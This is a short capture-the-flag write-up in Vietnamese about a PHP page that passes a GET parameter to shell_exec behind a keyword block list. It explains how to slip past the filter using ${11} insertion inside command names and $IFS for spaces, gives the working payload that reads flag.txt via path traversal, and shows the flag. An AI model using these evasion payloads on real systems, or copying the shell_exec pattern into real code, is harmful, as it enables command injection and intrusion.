 # Bắt đầu làm
```php
<?php
if(!isset($_GET['cmd'])){
    highlight_file(__FILE__);
}
else{
    $_GET['cmd']=addslashes($_GET['cmd']);
    if(preg_match("/cat|ls|head|\'|\"|less| |nl|echo|more|tail|grep|dir|tac|\>|\<|\=|\*|\&|\,|\`|\@/is",$_GET['cmd'])){
        die("bad linux user");
    }
    else{
        echo shell_exec($_GET['cmd']);
    }
}
?>
```
# Suy đoán lỗi có thể khai thác
Ta sẽ nhận ra một dòng lệnh kiến cho ta có thể đưa các shell code vào là shell_exec($_GET[‘cmd’]);
# Khai thác lỗi
Ta cần phải đưa Shellcode (ls, cat, ...)
# Vượt qua filter
Ta gặp một số filter như addslashes hay preg_match và hiển nhiên đã lọc đi các lệnh như ls, cat, ...
Tuy nhiên ta có thể sử dụng l${x}s và ca${x}t với x > 10 để vượt qua filter lọc các lệnh Linux.
Đồng thời ta có thể sử dụng $IFS như một mã lệnh đặc biệt để thay cho ký tự " " đã bị lọc.
# Đoạn mã cần giải
```
/?cmd=ca${11}t$IFS../../../flag.txt
```
# Kết quả
```
flag{b3st_b3st_b3st} 
```
